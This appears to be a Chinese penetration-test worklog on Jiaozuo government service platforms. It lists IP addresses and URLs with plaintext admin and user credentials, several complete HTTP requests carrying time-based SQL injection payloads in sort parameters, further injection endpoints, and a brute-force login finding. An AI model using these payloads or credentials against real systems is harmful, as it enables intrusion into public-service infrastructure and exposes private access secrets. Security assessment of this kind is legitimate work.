






# 任务1

## 数据共享交换平台:http://59.227.149.101/home

共享交换平台普通用户:
	用户名：jzs_test
	密码： Abc123#$
共享交换平台管理员:
	用户名：jzs_gly
	密码： Abc123#$


## 大数据平台:http://59.227.149.117:30104/view/index.html#/workspace

大数据平台账号:
	用户名：jzs_gly
	密码： Abc123#$


# 任务2

## 1、事项运行配置中心:http://59.227.149.122:9000/smp-web

焦作一体化政务服务平台
JZadmin
Linewell@2020


## 2、权力运行系统:http://59.227.149.122:8000

## sql注入

```
http://59.227.149.122:8000/newapi/hoox/smp/manage/law/smplawinfo/v1/smplawinfolist-query
```

请求包

```
GET /newapi/hoox/smp/manage/law/smplawinfo/v1/smplawinfolist-query?countPerPage=10&currentPageNum=1&expandParam=%7B%22uam_token%22%3A%22f8a9013e-de6e-41b7-9966-caedc45198f9%22%7D&sortField=CREATE_TIME%2C%28select%2Afrom%28select%2Bsleep%281%29union%2F%2A%2A%2Fselect%2B1%29a%29&sortOrder=DESC HTTP/1.1
Host: 59.227.149.122:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Crsf_token: 
Referer: http://59.227.149.122:8000/service-knowledge/law-policy
Accept-Encoding: gzip


```






其他注入点

```
http://59.227.149.122:8000/newapi/hoox/model/modelinfo/modelinfolist-query
```

## 3、一窗受理云平台:http://59.227.149.123:8000

焦作一体化政务服务平台
JZadmin
Linewell@2020


## sql注入

```
http://59.227.149.123:8000/api/hoox/owp/hall/v1/leave/apply/list
```

请求包

```
GET /api/hoox/owp/hall/v1/leave/apply/list?areaCode=410800000000&countPerPage=10&currentPageNum=1&expandParam=%7B%22menuId%22%3A%221243429731966234626%22%2C%22uam_token%22%3A%2264cbb757-4245-4a44-a158-0e9d1b03a576%22%7D&sortField=APPLY_TIME&sortOrder=desc%2C%28select%2Afrom%28select%2Bsleep%280%29union%2F%2A%2A%2Fselect%2B1%29a%29&userId=1328611886044270594 HTTP/1.1
Host: 59.227.149.123:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Crsf_token: 
Referer: http://59.227.149.123:8000/hall-manager/hall-leave-apply-list
Accept-Encoding: gzip

```





其他注入点

```
http://59.227.149.123:8000/api/hoox/owp/hall/v1/out/list
http://59.227.149.123:8000/api/hoox/owp/config/window/v1/window-config-list-by-area
http://59.227.149.123:8000/api/hoox/owp/config/window/v1/window-list-by-area
```

## 4、用户中心:http://59.227.149.108:10180

### 01登录位置存在暴力破解漏洞



重放攻击600次，仍提示用户名或密码错误。



修复建议：添加有效验证码。


## 5、表单中心:http://59.227.149.108:8060


## 6、办件中心:http://59.227.149.122:8100


## 7、焦我办:https://jzmanage.jzxzfw.gov.cn/frame/login/login.html


焦我办
18610000000
1234qwer